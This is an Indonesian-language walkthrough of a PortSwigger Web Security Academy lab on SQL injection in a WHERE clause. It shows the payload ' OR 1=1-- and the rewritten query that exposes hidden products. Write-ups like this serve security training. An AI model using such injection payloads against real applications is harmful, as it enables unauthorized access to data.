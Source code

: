 # SQL Injection Vulnerability in WHERE Clause

## Deskripsi Challenge

Challenge ini berasal dari **PortSwigger Web Security Academy** dengan level **Apprentice**.
Tujuan utamanya adalah mengeksploitasi kerentanan **SQL Injection pada WHERE clause** untuk menampilkan data produk yang seharusnya tersembunyi.

---

## Tujuan

* Mengidentifikasi kerentanan SQL Injection.
* Mengeksploitasi query menggunakan payload untuk mem-bypass filter.
* Menampilkan data produk yang tidak ditampilkan secara default.

---

## Analisis

Aplikasi rentan karena parameter pencarian produk langsung digunakan dalam query SQL tanpa sanitasi yang memadai.
Contoh query normal:

```sql
SELECT * FROM products WHERE category = 'Accessories' AND released = 1;
```

---

## Langkah-langkah

Dengan memasukkan payload berikut pada parameter `category`:

```sql
' OR 1=1--
```

Query menjadi:

```sql
SELECT * FROM products WHERE category = '' OR 1=1--' AND released = 1;
```
<img width="1919" height="958" alt="Screenshot 2025-09-11 145528" src="https://github.com/user-attachments/assets/e71262c5-06e2-4105-92fe-dd971d550c3f" />

Efeknya:

* Kondisi `OR 1=1` selalu **true**.
* Semua produk, termasuk yang tersembunyi, akan ditampilkan.

---

## Hasil

Setelah menjalankan payload, aplikasi menampilkan produk tersembunyi (hidden products).
Dengan begitu challenge dianggap **terselesaikan**.
<img width="1919" height="961" alt="Screenshot 2025-09-11 145554" src="https://github.com/user-attachments/assets/b23e092f-2b0b-4f11-90e8-c89149ccca29" />


